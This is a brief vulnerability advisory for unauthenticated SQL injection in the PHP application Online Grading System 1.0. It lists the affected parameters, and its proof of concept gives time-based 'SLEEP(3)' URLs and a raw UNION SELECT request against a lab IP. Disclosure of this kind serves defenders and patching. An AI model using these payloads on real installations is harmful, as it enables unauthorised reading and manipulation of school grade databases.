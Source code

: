 ONLINE GRADING SYSTEM 1.0 SQLI

Disclosure date: 11/22/19

Online Grading System is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the student, instructor, department, room, class, and user, parameters.

download:

https://www.sourcecodester.com/php/13711/online-grading-system-using-phpmysqli.html

Proof of Concept:

`http://192.168.118.129/admin/modules/subject/index.php?view=edit&id=466 and SLEEP(3)`
`http://192.168.118.129/admin/modules/course/index.php?view=edit&id=50 and SLEEP(3)`
`http://192.168.118.129/admin/modules/inst_front/index.php?view=grade&gradeId=1 and SLEEP(3)`

POC:
```
GET /admin/modules/course/index.php?view=edit&id=50%20and%201=2%20union%20select%201,@@version,3,4,5,6 HTTP/1.1
Host: 192.168.118.129
```
![](http://img.cdn.cuittk.cn/l513fyfhnsqyqi6npf9xqgiepn.png)

by h1tler@knownsec
